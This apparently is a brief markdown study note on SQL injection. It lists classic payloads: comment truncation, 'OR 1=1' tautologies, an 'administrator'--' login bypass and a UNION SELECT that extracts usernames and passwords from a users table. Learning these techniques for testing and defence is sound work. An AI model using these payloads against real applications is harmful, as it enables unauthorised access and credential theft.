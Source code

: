 # SQL Injection

### Commands

1. Comment

```
SELECT * FROM products WHERE category = 'xxx' AND id = xyz
SELECT * FROM products WHERE category = 'xxx'--' AND id = xyz

```

2. Make true = ture -> rest is ignored 

```
SELECT * FROM products WHERE category = 'xxx' OR 1=1--' AND id = xyz
```

3. OR 
```
SELECT * FROM Users WHERE Name ="" or ""="" AND Pass ="" or ""=""
```

4. Subverting application logic

```
SELECT * FROM users WHERE username = 'xxx' AND password = 'xyz'
SELECT * FROM users WHERE username = 'administrator'--' AND password = ''

```

4. Retrieving data from other database tables with Union 

```
SELECT name, description FROM products WHERE category = 'xxx'
' UNION SELECT username, password FROM users--
```

